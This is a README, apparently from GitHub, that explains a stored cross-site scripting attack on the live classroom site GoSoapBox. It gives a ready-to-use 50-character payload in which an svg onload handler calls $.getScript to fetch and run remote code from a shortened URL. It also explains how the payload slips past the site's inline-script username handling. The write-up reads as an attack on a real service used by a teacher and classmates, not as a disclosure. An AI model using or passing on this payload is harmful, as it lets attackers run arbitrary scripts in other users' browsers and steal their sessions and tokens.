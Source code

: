 # GoSoapBox XSS

Input in this site is rarely filtered, and on the rare occasions that it is, 
it's done poorly, and in a way that can be bypassed with minimal effort.

Just to get it out of the way, here is the actual XSS vector:
`";//<svg onload="$.getScript('//example.com/abcd')"/>`

where example.com/abcd stands for any url to a script file

To understand why this vector is used, first, some background understanding of GoSoapBox is needed.

1. GoSoapBox uses a Firebase DB to hold its information

Because of this, at the bottom of the page, there's a snippet of JS that looks like this:

```
	var user_id          = "u53r1dstr1ng";
	var user_name        = "my name";
	var firebase_path    = "https://gosoapbox-prod.firebaseio.com";
	var event_identifier = "123456789";
	var moderator_view   = 0;
	var auth_token       = "R3allyrE4llyl0ngt0k3n";
```

This js MUST be fully executed in order for the name to appear in the list of online users.

The problem is, any typical XSS vector would not show up in the list of online users,
since the given username is lazily concatenated into the javascript like so:

```
	var user_id          = "u53r1dstr1ng";
	var user_name        = "<svg onload="alert(1)"></svg>"; // Syntax error
	var firebase_path    = "https://gosoapbox-prod.firebaseio.com";
	var event_identifier = "123456789";
	var moderator_view   = 0;
	var auth_token       = "R3allyrE4llyl0ngt0k3n";
```

thus causing a syntax error.

Another problem, at least in Chrome, is that the browser automatically closes a script tag a closing script tag is found in its JS code. Because of this, the XSS vector:

`<script>alert(1)</script>`

is seen in the DOM like this:

```
<script>
	var user_id          = "u53r1dstr1ng";
	var user_name        = "<script>alert(1)
</script> <!-- Undoubtedly syntax error -->

";
	var firebase_path    = "https://gosoapbox-prod.firebaseio.com";
	var event_identifier = "123456789";
	var moderator_view   = 0;
	var auth_token       = "R3allyrE4llyl0ngt0k3n";
</script>
```

thus causing a more horrifying syntax error.

The next restriction is that

2. GoSoapBox restricts names to 50 characters

This makes writing code directly into the XSS vector infeasible, and also makes most JS hosting sites useless as well, since their URLs are far too long.

So what is the solution? URL shorteners, of course!

Not just any URL shortener can be used, however. The shortener used must both use HTTPS and have a short enough url to fit in the small input box we are given.

I, in particular, opted to use snip.li as my url shortener, though any URL shortener can be used as long as it meets the criteria.

So, to create this XSS vector, we have the following restrictions:

- No `<script>` tags
- Must be JS friendly
- 50 char limit

In order to get around these challenges, I used the following facts:

- GoSoapBox has no SOP
- It also uses jQuery
- svg onload exists

So my solution ended up being quite simple:

`";//<svg onload="$.getScript('//snip.li/OwO')"/>`

- The `";//` comments out the XSS vector to prevent a syntax error
- The svg onload uses `$.getScript` to retrieve an external script
- The external script is retrieved via the shortened URL `snip.li/OwO`, which points to an example script that I made.

At this point, there are no more restrictions, and now any XSS payload can be implemented.

Credits:

- My teacher, for using this site 800 million times
